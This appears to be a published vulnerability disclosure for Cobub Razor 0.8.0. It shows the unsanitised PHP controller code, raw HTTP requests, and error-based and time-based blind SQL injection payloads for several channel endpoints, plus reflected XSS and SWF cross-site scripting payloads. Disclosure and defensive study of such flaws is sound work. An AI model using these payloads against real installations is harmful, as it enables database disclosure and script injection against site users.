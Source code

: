 
## An SQL Injection vulnerability exists in Western Bridge Cobub Razor 0.8.0 via the channel_name and platform parameter in a /index.php?/manage/channel/addchannel request. ##  

Vendor Homepage : http://www.cobub.com/

Software Link : https://github.com/cobub/razor/releases

Affected Version : <= 0.8.0

## Vulnerability description ##  

The string  of the 'channel_name' and 'platform' parameter transmission is completely without check and filter,so if the string is passed, it will lead to the existence of SQL injection vulnerability,This could result in full information disclosure.

Code source:  
/application/controllers/manage/channel.php at line 75-95
```
    /**
     * Addchannel add custom channel
     *
     * @return bool
     */
    function addchannel()
    {
        $userid = $this->common->getUserId();
        $channel_name = $_POST['channel_name'];
        $platform = $_POST['platform'];
        $isUnique = $this->channel->isUniqueChannel($userid, $channel_name, $platform);
        if (!empty($isUnique)) {
            echo false;
        } else {
            if ($channel_name != '' && $platform != '') {
                
                $this->channel->addchannel($channel_name, $platform, $userid);
                echo true;
            }
        }
    }
```
## Technical details ##
request:
```
POST /index.php?/manage/channel/addchannel HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://localhost/index.php?/manage/channel
Content-Length: 28
Cookie: ci_session2=a%3A4%3A%7Bs%3A10%3A%22session_id%22%3Bs%3A32%3A%22771b48bbea848fd396ce3c79263c7ef8%22%3Bs%3A10%3A%22ip_address%22%3Bs%3A7%3A%220.0.0.0%22%3Bs%3A10%3A%22user_agent%22%3Bs%3A73%3A%22Mozilla%2F5.0+%28Windows+NT+10.0%3B+WOW64%3B+rv%3A48.0%29+Gecko%2F20100101+Firefox%2F48.0%22%3Bs%3A13%3A%22last_activity%22%3Bi%3A1520496121%3B%7D237011da46b2342467385c6f24631de2
X-Forwarded-For: 8.8.8.8
Connection: close

channel_name=test&platform=1%22
```  

## Proof of Concept ##  

The SQL injection type: error-based and AND/OR time-based blind  
Parameter: channel_name,platform  
Payload(This string is also applied to 'platform' at the same time):  
```
1.channel_name=test" AND (SELECT 1700 FROM(SELECT COUNT(*),CONCAT(0x7171706b71,(SELECT (ELT(1700=1700,1))),0x71786a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- JQon&platform=1
2.channel_name=test" AND SLEEP(5)-- NklJ&platform=1
```
Input special characters ["] can cause an error in the SQL syntax:  
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/Cobub_Razor_0.8.0_sql_1.png)  
Use manual injection:  
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/Cobub_Razor_0.8.0_sql_2.png)
SQLmap results:  
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/Cobub_Razor_0.8.0_sql_3.png)
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/Cobub_Razor_0.8.0_sql_4.png)

## Update Content ##
New discovery:  

1.SQL injection  

(1)http://localhost/index.php?/manage/channel/addsychannel  

```
POST /index.php?/manage/channel/addsychannel HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://localhost/index.php?/manage/channel
Content-Length: 25
Cookie: ci_session2=a%3A4%3A%7Bs%3A10%3A%22session_id%22%3Bs%3A32%3A%22bb44fb495a8fe728431c1928cb1d7262%22%3Bs%3A10%3A%22ip_address%22%3Bs%3A7%3A%220.0.0.0%22%3Bs%3A10%3A%22user_agent%22%3Bs%3A73%3A%22Mozilla%2F5.0+%28Windows+NT+10.0%3B+WOW64%3B+rv%3A48.0%29+Gecko%2F20100101+Firefox%2F48.0%22%3Bs%3A13%3A%22last_activity%22%3Bi%3A1523169922%3B%7D85bbd681a4008cee10faf391870dfb59
X-Forwarded-For: 10.0.0.1
Connection: close

channel_name=1&platform=1%22
```  
(2)http://127.0.0.1/index.php?/manage/channel/modifychannel  
```
POST /index.php?/manage/channel/modifychannel HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: ci_session2=a%3A5%3A%7Bs%3A10%3A%22session_id%22%3Bs%3A32%3A%22889ee6cfbfef845881c1fef14b37a558%22%3Bs%3A10%3A%22ip_address%22%3Bs%3A7%3A%220.0.0.0%22%3Bs%3A10%3A%22user_agent%22%3Bs%3A73%3A%22Mozilla%2F5.0+%28Windows+NT+10.0%3B+WOW64%3B+rv%3A48.0%29+Gecko%2F20100101+Firefox%2F48.0%22%3Bs%3A13%3A%22last_activity%22%3Bi%3A1523172925%3Bs%3A9%3A%22user_data%22%3Bs%3A0%3A%22%22%3B%7D9e913409dd356b1d7cb57ceeb291d727
X-Forwarded-For: 10.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

channel_id=1212%22&channel_name=xss><svg/onload=alert(1)>&platform=1
```  

2.SWF Cross Site Scripting  

http://localhost/assets/swf/uploadify.swf?uploadifyID=00"));}catch(e){alert(1);}//("&movieName="])}catch(e){if(!window.x){window.x=1;alert(2)}}//&.swf  


